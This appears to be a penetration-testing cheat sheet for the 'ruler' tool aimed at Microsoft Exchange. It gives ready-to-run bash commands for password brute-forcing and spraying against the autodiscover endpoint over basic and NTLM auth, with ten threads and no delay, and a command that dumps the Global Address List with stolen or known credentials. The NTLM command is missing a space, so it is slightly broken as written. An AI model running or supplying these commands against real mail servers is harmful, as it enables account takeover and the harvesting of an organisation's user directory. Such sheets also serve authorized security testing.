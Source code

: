 # ruler
% exchange
#plateform/linux  #target/remote  #protocol/exchange 


## autodiscover brute-force (basic auth)
#cat/ATTACK/BRUTEFORCE-SPRAY 
```bash
./ruler --basic --insecure --nocache --url  https://<fqdn>/autodiscover/autodiscover.xml -d <domain_fqdn>   brute --users ./users.txt --passwords <password_wl> --verbose  --delay 0  --stop --threads 10
```

## autodiscover brute-force(NTLM auth)
#cat/ATTACK/BRUTEFORCE-SPRAY 
```bash
./ruler--insecure --nocache --url  https://<fqdn>/autodiscover/autodiscover.xml -d <domain_fqdn>   brute --users ./users.txt --passwords <password_wl> --verbose  --delay 0  --stop --threads 10
```

## GAL dumping
#cat/ATTACK/EXPLOIT 
```bash
 ./ruler -k -d <domain_fqdn> -u <user> -p '<password>' -e <email> --verbose abk dump -o <out_file|gal.txt>
```